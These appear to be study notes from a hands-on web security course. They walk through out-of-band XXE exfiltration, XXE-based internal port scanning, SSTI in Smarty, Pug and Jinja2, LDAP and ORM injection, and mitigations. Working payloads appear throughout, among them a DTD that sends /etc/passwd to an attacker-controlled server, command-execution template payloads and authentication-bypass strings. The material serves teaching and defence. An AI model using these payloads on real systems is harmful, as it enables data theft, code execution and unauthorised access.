Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

**initial XML**


```xml
<?xml version="1.0" encoding="UTF-8"?>
<upload>
   <file>http://10.10.37.132/uploads/file_68632aabd9eac1.95800336.json</file>
</upload>
```

**payload**

```xml
<!DOCTYPE foo [

<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://10.10.108.40:1337/" >]>
<upload>
   <file>&xxe;</file>
</upload>
```
Send the modified HTTP request.


After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.

```bash
root@ip-10-10-108-40:~# python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.37.132 - - [01/Jul/2025 01:40:41] "GET / HTTP/1.0" 200 -
```

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "
<!ENTITY exfil SYSTEM 'http://10.10.108.40:1337/?data=%cmd;'>">
%oobxxe;
```

**DTD Payload Explained**

The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The `%cmd` entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`. It retrieves the content of `/etc/passwd`, a standard file in Unix-based systems containing user account information. The `convert.base64-encode` filter encodes the content in Base64 format to avoid formatting problems. The `%oobxxe` entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe`; is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from %cmd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://10.10.108.40:1337/sample.dtd">
<upload>
   <file>&exfil;</file>
</upload>
```


Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.

```bash
root@ip-10-10-108-40:~# python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.37.132 - - [01/Jul/2025 02:02:47] "GET /sample.dtd HTTP/1.0" 200 -
10.10.37.132 - - [01/Jul/2025 02:02:47] "GET /?data=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4OjEwMjoxMDQ6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbiwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDY6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDQ6MTEwOjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnRzczp4OjEwNjoxMTE6VFBNIHNvZnR3YXJlIHN0YWNrLCwsOi92YXIvbGliL3RwbTovYmluL2ZhbHNlCnV1aWRkOng6MTA3OjExMjo6L3J1bi91dWlkZDovdXNyL3NiaW4vbm9sb2dpbgp0Y3BkdW1wOng6MTA4OjExMzo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMDk6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpsYW5kc2NhcGU6eDoxMTA6MTE1OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTExOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKZWMyLWluc3RhbmNlLWNvbm5lY3Q6eDoxMTI6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KdWJ1bnR1Ong6MTAwMDoxMDAwOlVidW50dTovaG9tZS91YnVudHU6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCnRyeWhhY2ttZTp4OjEwMDE6MTAwMTosLCw6L2hvbWUvdHJ5aGFja21lOi9iaW4vYmFzaApteXNxbDp4OjExMzoxMTk6TXlTUUwgU2VydmVyLCwsOi9ub25leGlzdGVudDovYmluL2ZhbHNlCg== HTTP/1.0" 200 -
```

Decoding the exfiltrated base64 data will show that it contains the base64 value of `/etc/passwd`.

---

### SSRF + XXE

**Server-Side Request Forgery (SSRF)** attacks occur when an attacker abuses functionality on a server, causing the server to make requests to an unintended location. In the context of XXE, an attacker can manipulate XML input to make the server issue requests to internal services or access internal files. This technique can be used to scan internal networks, access restricted endpoints, or interact with services that are only accessible from the server’s local network.

<span style="font-size: 23px;">**Internal Network Scanning**</span>

Consider a scenario where a vulnerable server hosts another web application internally on a non-standard port. An attacker can exploit an XXE vulnerability that makes the server send a request to its own internal network resource.

For example, using the captured request from the in-band XXE task, send the captured request to Burp Intruder and use the payload below:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```
The external entity is set to fetch data from `http://localhost:§10§/`. Intruder will then reiterate the request and search for an internal service running on the server.

**Steps to brute force for open ports:**

1. Once the captured request from the In-Band XXE is in Intruder, click the Add § button while highlighting the port.


2. In the Payloads tab, set the payload type to Numbers with the Payload settings from 1 to 65535.


3. Once done, click the Start attack button and click the Length column to sort which item has the largest size. The difference in the server's response size is worth further investigation since it might contain information that is different compared to the other intruder requests.


**How the Server Processes This:**

The entity `&xxe;` is referenced within the `<name>` tag, triggering the server to make an HTTP request to the specified URL when the XML is parsed. The response of the requested resource will then be included in the server response. If an application contains secret keys, API keys, or hardcoded passwords, this information can then be used in another form of attack, such as password reuse.

<span style="font-size: 23px;">**Potential Security Implications**</span>

- **Reconnaissance**: Attackers can discover services running on internal network ports and gain insights into the server's internal architecture.
- **Data Leakage**: If the internal service returns sensitive information, it could be exposed externally through errors or XML data output.
- **Elevation of Privilege**: Accessing internal services could lead to further exploits, potentially escalating an attacker's capabilities within the network.

---

### Mitigation

<span style="font-size: 23px;">**Avoiding Misconfigurations**</span>

Misconfigurations in XML parser settings are a common cause of XXE-related vulnerabilities. Adjusting these settings can significantly reduce the risk of XXE attacks. Below are detailed guidelines and best practices for several popular programming languages and frameworks.

<span style="font-size: 23px;">**General Best Practices**</span>

1. **Disable External Entities and DTDs**: As a best practice, disable the processing of external entities and DTDs in your XML parsers. Most XXE vulnerabilities arise from malicious DTDs.
2. **Use Less Complex Data Formats**: Where possible, consider using simpler data formats like JSON, which do not allow the specification of external entities.
3. **Allowlisting Input Validation**: Validate all incoming data against a strict schema that defines expected data types and patterns. Exclude or escape XML-specific characters such as <, >, &, ', and ". These characters are crucial in XML syntax and can lead to injection attacks if misused.

<span style="font-size: 23px;">**Mitigation Techniques in Popular Languages**</span>

**Java**

Use the `DocumentBuilderFactory` and disable DTDs:

```bash
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
DocumentBuilder db = dbf.newDocumentBuilder();
```
**.NET**

Configure XML readers to ignore DTDs and external entities:

```bash
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
settings.XmlResolver = null;
XmlReader reader = XmlReader.Create(stream, settings);
```
**PHP**

Disable loading external entities by libxml:

```bash
libxml_disable_entity_loader(true);
```
**Python**

Use **defusedxml** library, which is designed to mitigate XML vulnerabilities:

```bash
from defusedxml.ElementTree import parse
et = parse(xml_input)
```

<span style="font-size: 23px;">**Regularly Update and Patch**</span>

- **Software Updates**: Keep all XML processors and libraries up-to-date. Vendors frequently patch known vulnerabilities.
- **Security Patches**: Regularly apply security patches to web applications and their environments.

<span style="font-size: 23px;">**Security Awareness and Code Reviews**</span>

- **Conduct Code Reviews**: Regularly review code for security vulnerabilities, especially code that handles XML input and parsing.
- **Promote Security Training**: Ensure developers are aware of secure coding practices, including the risks associated with XML parsing.

## Server-side Template Injection

**Server-Side Template Injection** (**SSTI**) is a vulnerability that occurs when user input is unsafely incorporated into a server-side template, allowing attackers to inject and execute arbitrary code on the server. 

**Template engines** are commonly used in web applications to generate dynamic HTML by combining fixed templates with dynamic data. When these engines process user input without proper sanitization, they become susceptible to SSTI attacks.


This can lead to a range of security issues, including code execution, data exposure, privilege escalation, and Denial of Service (DoS).

**Core Concepts of SSTI**

- **Dynamic Content Generation**: Template engines replace placeholders with actual data, allowing applications to generate dynamic HTML pages. This process can be exploited if user inputs are not properly sanitized.
- **User Input as Template Code**: When user inputs are treated as part of the template code, they can introduce harmful logic into the rendered output, leading to SSTI.

The core of SSTI lies in the improper handling of user input within server-side templates. Template engines interpret and execute embedded expressions to generate dynamic content. If an attacker can inject malicious payloads into these expressions, they can manipulate the server-side logic and potentially execute arbitrary code.

<span style="font-size: 23px;">**Flow of an SSTI Attack**</span>


When user input is directly embedded in templates without proper validation or escaping, attackers can craft payloads that alter the template's behaviour. This can lead to various unintended server-side actions, including:

- Reading or modifying server-side files.
- Executing system commands.
- Accessing sensitive information (e.g., environment variables, database credentials).

### Template Engines

<span style="font-size: 23px;">**PHP-Smarty**</span>

Smarty is a powerful template engine for PHP that enables developers to separate presentation from business logic, improving application maintainability and scalability. However, its capability to execute PHP functions within templates can expose applications to server-side template injection attacks if not securely configured.

Smarty's flexibility allows for dynamic execution of PHP functions within its templates, which can become a significant security risk. The ability to execute PHP code through template variables or modifiers should be carefully controlled to prevent unauthorized command executio

**conjecture verification**

payload `{'Hello'|upper}`  output `HELLO`

**payload**

Once you confirm that the site is vulnerable to SSTI via Smarty, you can craft a payload that uses PHP functions that execute system commands. One of the most common functions that do this is the `system()` function. Using the payload `{system("ls")}` is a direct and effective payload if Smarty's security settings allow PHP function execution.

<span style="font-size: 23px;">**NodeJS - Pug**</span>

Pug (formerly known as Jade) is a high-performance template engine widely used in the Node.js community for its concise HTML rendering and advanced features like conditionals, iterations, and template inheritance. While Pug provides powerful tools for developers, its ability to execute JavaScript code directly within templates can pose significant security risks.

Pug's security vulnerabilities primarily stem from its capability to interpolate JavaScript code within template variables. This feature, designed for dynamic content generation, can be exploited maliciously if user inputs are embedded into the template without proper sanitisation.

Developers must diligently sanitise and validate user inputs to mitigate these risks and ensure the security of applications using Pug.

**Key Vulnerability Points:**

- **JavaScript Interpolation**: Pug allows embedding JavaScript directly within templates using interpolation braces **#{}**. If user input is interpolated without proper sanitization, it can lead to arbitrary code execution.
- **Default Escaping**: Pug does provide automatic escaping for certain inputs, converting characters like `<`, `>`, and `&` to their HTML entity equivalents to prevent XSS attacks. However, this default behaviour does not cover all potential security issues, particularly when dealing with unescaped interpolation `!{}` or complex input scenarios.

**conjecture verification**

payload `#{7*7}` output `49`

**payload**

`#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}`

- `root.process` accesses the global `process` object from Node.js within the Pug template.
- `mainModule.require('child_process')` dynamically requires the `child_process` module, bypassing potential restrictions that might prevent its regular inclusion.
- `spawnSync('ls')`: Executes the `ls` command synchronously.
- `.stdout`: Captures the standard output of the command, which includes the directory listing.

**spawnSync**

When you try to use `spawnSync('ls -lah')`, you are attempting to pass the entire command and its arguments as a single string. This does not work as expected because spawnSync does not inherently split a single string into a command and its arguments. Instead, it treats the whole string as the command to execute, which it cannot find and thus fails to execute.

The `spawnSync` function is designed to execute a command in the shell and provide detailed control over the command's input and output. It's part of Node.js's `child_process` module, which allows Node.js to execute other processes on the system where it is running.

The function signature for `spawnSync` is:

`spawnSync(command, [args], [options])`

- **command**: This is a string that specifies the command to run.
- **args**: This is an array of string arguments to pass to the command.
- **options**: This is an optional parameter that can specify various options such as the working directory, environment variables, input, output, timeout, and more.

**Correct Usage of spawnSync**

To correctly use `spawnSync` to execute the `ls` command with `-lah` argument, you should separate the command and its arguments into two distinct parts:

```javascript
const { spawnSync } = require('child_process');
const result = spawnSync('ls', ['-lah']);
console.log(result.stdout.toString());
```

In this corrected form:

- `'ls'` is the command.
- `['-lah']` is an array containing all arguments passed to the command.

This structure ensures that the `ls` command is called with `-lah` as its argument, allowing the command to function as intended. So, the final payload will then be 

`#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`

<span style="font-size: 23px;">**Python - Jinja2**</span>

Jinja2 is a popular template engine for Python, renowned for its flexibility and performance. It is extensively used in web applications to render dynamic content, as it allows Python-like expressions to be embedded within HTML. While Jinja2 accelerates development and facilitates the separation of presentation from business logic, its powerful templating capabilities can also introduce significant security risks if not handled properly.

Since Jinja2 allows the execution of Python expressions within the templates, the security risk in Jinja2 often arises from insecure coding practices that allow user input to be executed within templates without proper sanitization. The vulnerability is not inherent in Jinja2 itself but rather in how developers handle user inputs in their templates. Properly sanitizing and validating all user inputs before incorporating them into templates is essential to prevent such security issues.

**Key Vulnerability Points:**

- **Expression Evaluation**: Jinja2 evaluates expressions within curly braces `{{ }}`, which can execute arbitrary Python code if crafted maliciously.
- **Template Inheritance and Imports**: Advanced features like template inheritance and macro imports can be misused to execute unintended code, leading to information disclosure or server manipulation.

**conjecture verification**

payload `{{7*7}}` output `49`

**payload**

```javascript
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

- `"".__class__.__mro__[1]` accesses the base `object` class, the superclass of all Python classes.
- `__subclasses__()`: Lists all subclasses of `object`, and `[157]` is typically the index for the `subprocess.Popen` class (this index may vary and should be checked in the target environment).
- the subsequent method chains dynamically import and use the `subprocess` module to execute the `ls` command, capturing its output.

**check_output**

**syntax**: `subprocess.check_output([command, arg1, arg2])`

- **command**: A string that specifies the command to execute.
- **arg1**, **arg2**, **...**: Additional arguments that should be passed to the command.


`subprocess.check_output(['ls', '-lah'])`

```javascript
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}
```

---

### Automating the Exploitation

SSTImap is a tool that automates the process of testing and exploiting SSTI vulnerabilities in various template engines. Hosted on [GitHub](https://github.com/vladko312/SSTImap), it provides a framework for discovering template injection flaws.

```bash
# 1.Clone the Repository
git clone https://github.com/vladko312/SSTImap.git
# 2.Navigate to the SSTImap Directory
cd SSTImap
# 3.Install Dependencies (if any are listed, usually via a requirements.txt)
pip install -r requirements.txt
```

SSTImap is capable of the following:

- **Template Engine Detection**: SSTImap can help identify the template engine used by a web application, which is crucial for crafting specific exploits.
- **Automated Exploitation**: For known vulnerabilities, SSTImap can automate the process of exploiting them.

You can use SSTImap by providing it with the target URL and any necessary options. Here’s a simple usage example:

`python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='`

## LDAP Injection

LDAP, which stands for **Lightweight Directory Access Protocol**, is a widely used protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network. LDAP enables organizations to manage users centrally, as well as groups and other directory information, often used for authentication and authorization purposes in web and internal applications.

### Structure

In LDAP, directory entries are structured as objects, each adhering to a specific schema that defines the rules and attributes applicable to the object. This object-oriented approach ensures consistency and governs how objects like users or groups can be represented and manipulated within the directory.

**Services that use LDAP:**

- **Microsoft Active Directory**: A service for Windows domain networks, utilizing LDAP as part of its underlying protocol suite to manage domain resources.
- **OpenLDAP**: An open-source implementation of LDAP, widely used for managing user information and supporting authentication mechanisms across various platforms.

<span style="font-size: 23px;">**LDIF Format**</span>

LDAP entries can be represented using the LDAP Data Interchange Format (LDIF), a standard plain text data format for representing LDAP directory entries and update operations. LDIF imports and exports directory contents and describes directory modifications such as adding, modifying, or deleting entries.

<span style="font-size: 23px;">**Structure**</span>

An LDAP directory follows a hierarchical structure like a file system's tree. This structure comprises various entries representing a unique item, such as a user, group, or resource.


At the top of the LDAP tree, we find the **top-level domain (TLD)**, such as `dc=ldap,dc=thm`. Beneath the TLD, there may be subdomains or organizational units (OUs), such as `ou=people` or `ou=groups`, which further categorize the directory entries.

- **Distinguished Names (DNs):** Serve as unique identifiers for each entry in the directory, specifying the path from the top of the LDAP tree to the entry, for example, `cn=John Doe,ou=people,dc=example,dc=com`.
- **Relative Distinguished Names (RDNs):** Represent individual levels within the directory hierarchy, such as `cn=John Doe`, where `cn` stands for Common Name.
- **Attributes:** Define the properties of directory entries, like `mail=john@example.com` for an email address.

---

### Search Queries

LDAP search queries are fundamental in interacting with LDAP directories, allowing you to locate and retrieve information stored within the directory. Understanding how to construct these queries is crucial for effectively utilizing LDAP services.

An LDAP search query consists of several components, each serving a specific function in the search operation:

1. **Base DN (Distinguished Name)**: This is the search's starting point in the directory tree.
2. **Scope**: Defines how deep the search should go from the base DN. It can be one of the following:
- `base` (search the base DN only),
- `one` (search the immediate children of the base DN),
- `sub` (search the base DN and all its descendants).
3. **Filter**: A criteria entry must match to be returned in the search results. It uses a specific syntax to define these criteria.
4. **Attributes**: Specifies which characteristics of the matching entries should be returned in the search results.

The basic syntax for an LDAP search query looks like this:

`(base DN) (scope) (filter) (attributes)`

<span style="font-size: 23px;">**Filters and Syntax**</span>

Filters are the core of LDAP search queries, defining the conditions that entries in the directory must meet to be included in the search results. The syntax for LDAP filters is defined in [RFC 4515](https://www.openldap.org/lists/ietf-ldapbis/200606/msg00010.html), where filters are represented as strings with a specific format, such as `(canonicalName=value)`. LDAP filters can use a variety of operators to refine search criteria, including equality (`=`), presence (`=*`), greater than (`>=`), and less than (`<=`).

One of the most essential operators in LDAP filters is the wildcard `*`, which signifies a match with any number of characters. This operator is crucial for formulating broad or partial-match search conditions.

```bash
root@ip-10-10-139-16:~# ldapsearch -x -H ldap://10.10.216.166:389 -b "dc=ldap,dc=thm" "(ou=People)"
# extended LDIF
#
# LDAPv3
# base <dc=ldap,dc=thm> with scope subtree
# filter: (ou=People)
# requesting: ALL
#

# People, ldap.thm
dn: ou=People,dc=ldap,dc=thm
objectClass: organizationalUnit
objectClass: top
ou: People

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
This command uses `ldapsearch` to perform a search against an LDAP server located at the vulnerable machine on port 389, starting at the base DN `dc=ldap,dc=thm` and using a filter that will search for entries under the organizational unit of People.

---

### Injection Fundamentals

LDAP Injection is a critical security vulnerability that occurs when user input is not properly sanitized before being incorporated into LDAP queries. This oversight allows attackers to manipulate these queries, leading to unauthorized access or manipulation of the LDAP directory data.

LDAP Injection exploits the way web applications construct LDAP queries. When user input is directly included in these queries without proper validation or encoding, attackers can inject malicious LDAP statements. This can result in unauthorized access to sensitive information, modification of directory data, or bypassing authentication mechanisms.

<span style="font-size: 23px;">**Injection Process**</span>

Making an LDAP Injection attack involves several key steps, from identifying the injection point to successfully exploiting the vulnerability.


This diagram illustrates the interaction between the attacker, the web application, and the LDAP server during an LDAP Injection attack. The attacker submits malicious input to the web application login form, which constructs an LDAP query incorporating this input. The LDAP server then executes the altered query, leading to potential unauthorized access or information disclosure, depending on the nature of the injected payload.

---

### Exploiting LDAP  

<span style="font-size: 23px;">**Authentication Bypass Techniques**</span>

**Tautology-Based Injection**

`*)(|(&` for `{userInput}` and `pwd)` for `{passwordInput}`

`(&(uid={userInput})(userPassword={passwordInput}))` →

`(&(uid=*)(|(&)(userPassword=pwd)))`

**Wildcard Injection**

An attacker might use a wildcard as input in both uid and userPassword. Using a `*` for `{userInput}` could force the query to ignore specific usernames and focus instead on the password. However, since a wildcard is also present in the `{passwordInput}`, it does not validate the content of the password field against a specific expected value. Instead, it only checks for the presence of the `userPassword` attribute, regardless of its content.

This means that the query will return a positive match for any user without verifying that the password provided during authentication matches the stored password. As a result, this effectively bypasses the password-checking mechanism.

---

### Blind LDAP Injection

Blind LDAP Injection is a more subtle variant of LDAP Injection, where the attacker doesn't receive direct output from the injected payload. Instead, they must infer information based on the application's behaviour. This type of attack is more challenging but can still be used to extract sensitive information from an LDAP directory.

Blind LDAP Injection requires a different approach due to the lack of explicit query results. Attackers must rely on indirect signs, such as changes in application behaviour, error messages, or response timings, to deduce the structure of the LDAP query and the existence of vulnerabilities.

**Injected Username and Password:**

`a*)(|(&` for username and `pwd)`

**Resulting LDAP Query:**

`(&(uid=a*)(|(&)(userPassword=pwd)))`

If the application returns "Something is wrong in your password", the attacker can infer that a user with an account that starts with "a" in their uid exists in the LDAP directory.

<span style="font-size: 23px;">**Techniques for Extracting Information**</span>

1. **Boolean Exploitation**: This involves injecting conditions that are evaluated to be true or false and observing the application's response to infer data. For example, if the application behaves differently when the condition is true, the attacker can deduce that the injected condition matches an existing entry in the LDAP directory.
2. **Error-Based Inference**: In some cases, specific injections might trigger error messages or peculiar application behaviour, providing clues about the LDAP structure or confirming the success of particular payloads.

---

### Automating the Exploitation

[Exploit Code](../files/pythonfile.md#ldap-auto-exploit)


## ORM Injection

With advancements in cyber security, many developers have adopted object-relational mapping ([ORM](../common.md#orm)) to mitigate SQL injection attacks. While ORM is intended to simplify database interactions and improve security, the threat of injection attacks is still not over. ORM injection occurs when attackers exploit vulnerabilities within ORM frameworks, allowing them to execute arbitrary queries.

### Understanding ORM

<span style="font-size: 23px;">**What is ORM**</span>

ORM is a programming technique that facilitates data conversion between incompatible systems using object-oriented programming languages. It allows developers to interact with a database using the programming language's native syntax, making data manipulation more intuitive and reducing the need for extensive SQL queries. ORM is particularly beneficial when complex data interactions are required, as it simplifies database access and promotes code reusability. 



<span style="font-size: 23px;">**Purpose**</span>

ORM serves as a bridge between the object-oriented programming model and the relational database model. The primary purpose of an ORM is to abstract the database layer, allowing developers to work with objects rather than tables and rows. This abstraction layer helps in:

- **Reducing boilerplate code**: ORM reduces the need for repetitive code by automatically generating SQL queries based on object operations.
- **Increasing productivity**: Developers can focus on the business logic without worrying about database interactions.
- **Ensuring consistency**: ORM frameworks consistently handle database operations, reducing the risk of errors.
- **Enhancing maintainability**: Changes to the database schema are easier to manage, as they can be reflected in the object model without extensive code modifications.

<span style="font-size: 23px;">**Commonly Used ORM Frameworks**</span>

| lang   |  name  |
|-------|--------|
| PHP   | Doctrine |
| java  | Hibernate |
| Python| SQLAlchemy |
| C#    | Entity Framework |
| Ruby on Rails | Active Record  |

---

### How ORM Works  ORM

<span style="font-size: 23px;">**Mapping Between Objects in Code and Database Tables**</span>

ORM is a technique that simplifies data interaction in an application by mapping objects in code to database tables. In PHP, this process involves defining classes that represent database tables and their relationships. Each class property corresponds to a column in the table, and each class instance represents a row.

<span style="font-size: 23px;">**Common ORM Operations (Create, Read, Update, Delete)**</span>

<span style="font-size: 23px;">**Comparing SQL Injection and ORM Injection**</span>

SQL injection and ORM injection are both techniques used to exploit vulnerabilities in database interactions, but they target different levels of the stack:

- **SQL injection**: Targets raw SQL queries, allowing attackers to manipulate SQL statements directly. This is typically achieved by injecting malicious input into query strings. The injection part in the following query, `OR '1'='1`, always evaluates to true, allowing attackers to bypass authentication:

`SELECT * FROM users WHERE username = 'admin' OR '1'='1';`

- **ORM injection**: Targets the ORM framework, exploiting how it constructs queries from object operations. Attackers manipulate the ORM’s methods and properties to influence the resulting SQL queries.

`$userRepository->findBy(['username' => "admin' OR '1'='1"]);`

In the above code, the injection part, `admin' OR '1'='1`, always evaluates to true.


| Aspect | SQL injection | ORM injection |
| :--- | :--- | :--- |
| **Level of injection** | Targets raw SQL queries directly | Targets the ORM framework's query construction |
| **Complexity** | More straightforward, as it manipulates raw SQL | Requires understanding of ORM internals and methods |
| **Detection** | Easier to detect with traditional WAFs and query logs | Harder to detect, as payloads are within ORM methods |
| **Mitigation** | Use of prepared statements, parameterised queries, input validation | Proper ORM configuration, application-level input validation, ORM features enforcing query safety |

---

### Identifying ORM Injection

Identifying ORM injection vulnerabilities involves examining how user inputs are handled within ORM queries. These vulnerabilities typically arise when user inputs are directly embedded into ORM query methods without proper sanitisation or validation. Indicators of potential ORM injection issues include the use of dynamic queries that concatenate user inputs, raw query execution methods, and insufficient use of parameterised queries.

<span style="font-size: 23px;">**Techniques for Testing ORM Injection**</span>

- **Manual code review**: A thorough source code inspection can reveal raw query methods (such as whereRaw() in Laravel) that incorporate user inputs directly. Look for concatenated strings or unescaped inputs in ORM methods, which can indicate injection points.
- **Automated scanning**: Use security scanning tools that are designed to detect ORM injection vulnerabilities. These tools analyse the codebase to identify patterns that could lead to injection, such as dynamic query construction or improper input handling.
- **Input validation testing**: Perform manual testing by injecting payloads into application inputs to see if they affect the underlying ORM query. For example, injecting SQL control characters or keywords to determine if they alter the execution of the query.
- **Error-based testing**: Enter deliberately incorrect or malformed data to trigger errors. Detailed error messages can provide insights into the structure of the underlying queries and indicate potential vulnerabilities.

**Frameworks and ORM Injection Testing**

| Framework | ORM Library | Common Vulnerable Methods |
| :--- | :--- | :--- |
| **Laravel** | Eloquent ORM | `whereRaw()`, `DB::raw()` |
| **Ruby on Rails** | Active Record | `where("name = '#{input}'")` |
| **Django** | Django ORM | `extra()`, `raw()` |
| **Spring** | Hibernate | `createQuery()` with `concatenation` |
| **Node.js** | Sequelize | `sequelize.query()` |

The table above highlights various web development frameworks and their associated ORM libraries, detailing common methods that are prone to vulnerabilities. For example, in Laravel, using `whereRaw()` or `DB::raw()` with user inputs can lead to ORM injection, but this can be prevented by using parameterised queries with the `where()` method. Similarly, in Django, methods like `extra()` and `raw()` can introduce vulnerabilities if not handled correctly, while using the filter method with parameterised queries ensures safer database interactions. Understanding these common pitfalls and adopting secure coding practices is crucial for maintaining the security of web applications.

---

### ORM Injection

<span style="font-size: 23px;">**Weak Implementation**</span>

` 1' OR '1'='1`

`$users = User::whereRaw("email = '1' OR '1'='1'")->get();`

**Implementing Secure ORM Queries**

- **Constructing the query securely**: Instead of using `whereRaw()`, the secure version uses Eloquent's `where()` method. This method automatically escapes the input, thus preventing SQL injection. The `where()` method constructs a parameterised query behind the scenes, ensuring that user input is not directly included in the SQL statement.
- **Parameterised queries**: Parameterised queries ensure that the input values are treated as data only, not executable code. This prevents any injected SQL from being executed.
- **Automatic escaping**: Eloquent automatically escapes the input values, negating any special characters that could be used for SQL injection.
- **Consistent query logic**: By using Eloquent methods like `where()`, the query logic remains consistent and clear, making it easier to maintain a

<span style="font-size: 23px;">**Vulnerable Implementation**</span>

`SELECT * FROM users ORDER BY name ASC LIMIT 2`

